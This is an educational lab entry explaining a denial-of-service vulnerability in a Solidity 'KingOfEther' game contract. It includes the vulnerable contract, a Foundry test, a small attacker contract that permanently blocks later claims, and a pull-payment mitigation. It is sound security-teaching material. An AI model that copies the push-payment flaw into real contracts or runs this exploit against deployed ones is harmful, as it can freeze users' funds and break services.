

# DOS 
[DOS.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/DOS.sol)   
**Name:** Denial of Service

**Description:**  
The KingOfEther contract holds a game where a user can claim the throne by sending more Ether than the current balance.
The contract attempts to return the previous balance to the last "king" when a new user sends more Ether. 

However, this mechanism can be exploited. An attacker's contract (here, the Attack contract) can become the king and then make the fallback function revert or consume more than the stipulated gas limit, causing the claimThrone function to fail whenever the KingOfEther contract tries to return Ether to the last king.

**Mitigation:**  
Use a Pull payment pattern, A way to prevent this is to enable users to withdraw their Ether, instead of sending it to them.

**REF:**

https://slowmist.medium.com/intro-to-smart-contract-security-audit-dos-e23e9e901e26

 **KingOfEther Contract:**  
 ```
 contract KingOfEther {
    address public king;
    uint public balance;

    function claimThrone() external payable {
        require(msg.value > balance, "Need to pay more to become the king");

        (bool sent, ) = king.call{value: balance}("");
        require(sent, "Failed to send Ether");

        balance = msg.value;
        king = msg.sender;
    }
}
```
**How to Test:**

forge test --contracts src/test/**DOS.sol** -vvvv  
```
// This function tests a Denial of Service (DoS) attack scenario.
function testDOS() public {
    // 'alice' and 'bob' are assigned address values from the Ethereum virtual machine.
    address alice = vm.addr(1);
    address bob = vm.addr(2);

    // Alice and Bob are dealt 4 ether and 2 ether respectively.
    vm.deal(address(alice), 4 ether);
    vm.deal(address(bob), 2 ether);

    // Some prank function is called with Alice's address.
    vm.prank(alice);

    // Alice tries to claim the throne of the KingOfEtherContract by sending 1 ether.
    KingOfEtherContract.claimThrone{value: 1 ether}();

    // The prank function is called again, this time with Bob's address.
    vm.prank(bob);

    // Bob tries to claim the throne by sending 2 ether.
    KingOfEtherContract.claimThrone{value: 2 ether}();

    // The balance of Alice is logged after returning 1 ether to Alice.
    console.log("Return 1 ETH to Alice, Alice of balance", address(alice).balance);

    // The Attack contract is invoked, attacking the KingOfEtherContract with 3 ether.
    AttackerContract.attack{value: 3 ether}();

    // The balance of the KingOfEtherContract is logged.
    console.log("Balance of KingOfEtherContract", KingOfEtherContract.balance());

    // A message is logged indicating the attack is complete and Alice will fail to claim the throne again.
    console.log("Attack completed, Alice claimthrone again, she will fail");

    // The prank function is called again with Alice's address and the process expects a revert.
    vm.prank(alice);
    vm.expectRevert("Failed to send Ether");

    // Alice tries to claim the throne again, which will fail because of the DoS attack.
    KingOfEtherContract.claimThrone{value: 4 ether}();
}

// The Attack contract that initiates the DoS attack on the KingOfEther contract.
contract Attack {
    KingOfEther kingOfEther;

    // Constructor that initializes the KingOfEther contract.
    constructor(KingOfEther _kingOfEther) {
        kingOfEther = KingOfEther(_kingOfEther);
    }

    // The attack function that claims the throne by sending ether to the KingOfEther contract.
    function attack() public payable {
        kingOfEther.claimThrone{value: msg.value}();
    }
}
```
Red box: no one can win the game after exploiting.  


